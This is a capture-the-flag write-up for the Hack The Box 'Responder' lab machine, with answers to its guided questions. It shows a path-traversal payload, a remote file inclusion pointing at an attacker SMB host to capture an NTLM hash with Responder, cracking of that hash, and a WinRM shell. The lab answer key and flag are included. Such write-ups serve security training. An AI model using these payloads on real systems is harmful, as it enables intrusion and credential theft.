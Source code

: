 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Responder

## <mark style="color:blue;">Description</mark>

* **Tier **<mark style="color:green;">**->**</mark>** 1**
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags **<mark style="color:green;">**->**</mark> WinRM / Custom Applications / Protocols / XAMPP / SMB / Responder / PHP\
  &#x20;             Reconnaissance / Password Cracking / Hash Capture / Remote File Inclusion\
  &#x20;             Remote Code Execution

<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=1</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* We start doing an initial scan

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p- -Pn --min-rate 2000 10.129.215.213
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

***

* Now we can make an exhaustive scan

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p80 -sVC 10.129.215.213
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

***

* As it is an HTTP on port 80, it means is a web page, so we can go and check it on the browser. It redirects us to a domain named _unika.htb,_ but we are unable to reach the server.

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>



***

* With this, we can answer the first question

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

> Answer: _**unika.htb**_

***

* The reason why the page doesn't show us content is because isn't in our list of known hosts. To fix this we will add it by modifying the _/etc/hosts_ file

{% code lineNumbers="true" %}
```bash
sudo nano /etc/hosts
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

***

* Now we can reload the page and it will work properly

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

***

* We can get some information about the page technologies from the _Wappalyzer_ extension

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

***

* With this, we can answer the next question

<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

> Answer: _**php**_

***

* As we navigate through the page we find in the top right corner a slider to select the language of the page

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

***

* If we select one different from _english_, the language of the page will change and the URL will show some parameters reflecting this action

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

***

* Then we can answer the next question

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

> Answer: _**page**_



***

* Now we can abuse these parameters to make an LFI attack to list the contents of the server. The attempt is successful and gives us the content of the asked file. Note that we use a payload for a Windows server because _Wappalyzer_ told us this information.

{% code title="Payload" lineNumbers="true" %}
```url
page=../../../../../../../../windows/system32/drivers/etc/hosts
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

***

* With  this and some research, we can answer some questions

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

> Answer: ../../../../../../../../windows/system32/drivers/etc/hosts

***

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

> Answer: _**//10.10.14.6/somefile**_

***

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

> Answer: _**New Technology Lan Manager**_

***

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

> Answer: _**-I**_

***

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

> Answer: _**John The Ripper**_

***

* Now we will use the _responder_ utility to get the credentials of the target. First, we need to configure the tool, so we modify the _Responder.config_ file to set the value of _SMB_ to _On_.

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

***

* With this set, we initialize the tool specifying the network interface we are using

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption><p>Snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
We can check the interface using the`ifconfig` command. Normally will be _tun0_ as this is the network interface of the VPN we are connected to.
{% endhint %}

***

* With this, we can go to the vulnerable parameter of the URL and make an RFL to our machine to get the credentials.

{% code title="Payload" overflow="wrap" lineNumbers="true" %}
```url
page=//10.10.14.195/somefile
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

***

* As seen above, the page displays an error but if we check the _responder_ running service it has caught the credentials of the target.

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

***

* The most important part is the hash we have obtained, so we save it in a text file.

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

***

* Now we can try to break the hash using the _John The Ripper_ tool, for this, we use the well-known _rouckyou.txt_ dictionary. We see that the cracking process was successful and we have got the password _badminton_ for the user _Administrator_

<figure><img src="../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

***

* With this and some research, we can answer some questions

<figure><img src="../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

> Answer:  _**badminton**_

***

<figure><img src="../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

> Answer: _**5985**_

***

* With these credentials, we can use the _evil-winrm_ tool to connect  to a shell of the Windows machine

<figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

***

* If we search through the system, we will find a file called _flag.txt_ in the _C:\Users\mike\Desktop_ folder

<figure><img src="../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

***

* Finally, we can check the content of the file with `type flag.txt` and exit from the Windows system

<figure><img src="../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

***

* With this, we have got the root flag and have pawned the machine.

<figure><img src="../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

> Answer: _**ea81b7afddd03efaa0945333ed147fac**_
